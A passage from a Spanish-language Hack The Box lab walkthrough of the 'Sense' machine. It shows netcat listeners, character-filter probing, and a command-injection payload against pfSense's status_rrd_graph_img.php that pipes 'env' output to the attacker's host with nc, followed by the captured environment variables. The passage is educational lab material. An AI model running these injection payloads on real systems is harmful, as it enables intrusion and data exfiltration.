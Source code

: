 ![""](/assets/images/htb-sense/sense-burp.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 3489
;
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 5406
|
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 48487
>
```

Por lo tanto, al servidor no le gusta el **/**, **&** y el **-**. Si checamos las variables de entorno del servidor:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;env | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 5600
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
```
